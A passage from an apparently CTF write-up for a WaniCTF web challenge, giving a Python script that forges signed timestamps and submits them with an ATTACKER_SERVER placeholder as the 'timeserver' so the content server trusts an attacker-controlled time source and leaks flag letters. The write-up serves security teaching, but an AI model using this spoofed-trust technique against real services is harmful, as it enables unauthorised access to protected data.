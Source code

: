 {% endcode %}

Next, we'll use a script that will loop through all 12 characters (days) of the flag, starting from yesterday (`i - 1`).

For each day, the script generates and signs a timestamp (using our private key) and then submits it to the content-server, with our ATTACKER_SERVER provided as the `timeserver` address.

The response is extracted with BeautifulSoup and then printed.

{% code overflow="wrap" %}

```python
import requests
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
from bs4 import BeautifulSoup

def load_private_key():
    with open('privkey', 'rb') as f:
        return ECC.import_key(f.read())

def generate_timestamp_and_sign(timestamp):
    key = load_private_key()
    h = SHA256.new(timestamp.encode('utf-8'))
    signer = DSS.new(key, 'fips-186-3')
    signature = signer.sign(h)
    return timestamp, signature.hex()

def send_timestamp_and_signature(timestamp, signature, timeserver):
    url = 'https://web-one-day-one-letter-content-lz56g6.wanictf.org/'
    payload = {
        "timestamp": timestamp,
        "signature": signature,
        "timeserver": timeserver
    }
    headers = {
        'Content-Type': 'application/json',
    }
    response = requests.post(url, json=payload, headers=headers)
    return response.text

def extract_flag(response_text):
    soup = BeautifulSoup(response_text, 'html.parser')
    flag_paragraph = soup.find_all('p')[1]
    flag = flag_paragraph.text.split(' ')[2].strip()
    return flag

if __name__ == "__main__":
    timeserver = "ATTACKER_SERVER"
    for i in range(12):  # 12 days
        timestamp = str(int(time.time()) + (i - 1) * 24 * 60 * 60)
        timestamp_str, signature_hex = generate_timestamp_and_sign(timestamp)
        response_text = send_timestamp_and_signature(
            timestamp_str, signature_hex, timeserver)
        flag = extract_flag(response_text)
        print(f"Flag for timestamp {timestamp_str}: {flag}")
```
